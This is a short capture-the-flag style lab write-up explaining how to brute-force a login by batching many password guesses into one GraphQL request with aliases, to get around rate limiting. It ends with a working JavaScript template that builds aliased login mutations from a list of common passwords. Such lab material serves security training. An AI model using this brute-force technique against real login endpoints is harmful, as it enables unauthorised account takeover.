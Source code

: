 *This information is only for the purposes of education and skills development. GET and POST are not acronyms.*

**Objective**
Brute forcing password to sign in as Carlos.

**GraphQL**
- It is an API query language for communication between the client and server. 
- Efficiency is its main feature, enabling users to request and receive the exact information required.

**Point of Entry**
Login page with username and password.

**Barrier to Entry**
- The point of entry has GraphQL based protection against bruteforcing of passwords. 
- Too many requests from the same origin within a short span of time returns an error response.

**Bypassing Barrier to Entry**
- Creating a JavaScript that uses aliases to send multiple login attempts at the same time.

**Execution**
- Open login page. Right click anywhere and open Inspect. Select Console and insert the JavaScript in template into the Console. 
- On pressing enter, aliases are created which will be used in a login request later.
- Turn on intercept. Use random credentials to initiate a login request. Send this request to Repeater.
- Paste the generated aliases in the request body and press send. 
- In the response column, the password that returns a true status is the correct password.

**Template**
`` copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>` bruteforce$index:login(input:{password: "$password", username: "carlos"}) { token success } `.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");